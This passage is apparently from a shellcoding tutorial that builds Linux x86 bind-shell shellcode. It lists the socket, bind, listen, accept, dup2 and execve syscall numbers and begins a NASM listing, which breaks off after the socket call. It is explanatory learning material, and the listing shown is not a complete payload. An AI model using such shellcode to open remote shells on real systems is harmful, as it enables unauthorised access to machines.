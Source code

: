 
Once we know the system calls or syscalls, the values used in them and the order, it is necessary to get the hexadecimal values for every syscall, using cat and printf to print the hexadecimal value:

```bash
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep listen

printf "%x\n" 363
```

Or the *syscallhex.sh* script (in **scripts/** folder)

```bash
sh syscallhex.sh listen
```



The system calls and their values are:

- Socket: 359 (0x167)

- Bind:     361 (0x169)

- Listen:   363 (0x16b

- Accept:   364 (0x16c)

- Dup2:     63 (0x3f)

- Execve:   11 (0xb)


Also it is important to know how the system calls work in Linux. As stated in the [Skape's paper about egghunters](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) "the system call interface that is exposed to user-mode applications in Linux (on IA32) is provided through soft-interrupt 0x80. The following table describes the register layout that is used across all system calls"

![Screenshot](images/7.png)

Knowing this and the values from the Libemu's output, it is possible to write the nasm code:

```assembly
global _start			

section .text

_start:

	; Write message
	xor eax, eax
	mov al, 0x4 ; Syscall 4 = Write
	xor ebx, ebx
	mov bl, 1 ; $ebx = 0x1
	push 0x0a2e2e2e ; 'Binding port...' message
	push 0x74726f70
	push 0x20676e69
	push 0x646e6942
	mov ecx,esp ; $ecx = Address of stack, containing the message
	xor edx, edx 
	mov dl, 0x10 ; $edx = Message length (4*4=16)
	int 0x80

	; Socket - 359
	xor eax, eax
	mov ax, 0x167 ; Syscall 359 = Socket
	mov bl, 2 ; $ebx = Domain = 2 [AF_INET]
	xor ecx, ecx
	mov cl, 1 ; $ecx = Type = 1 [SOCK_STREAM]
	xor edx, edx ; $edx = Protocol = 0 [not set]
	int 0x80 
	
```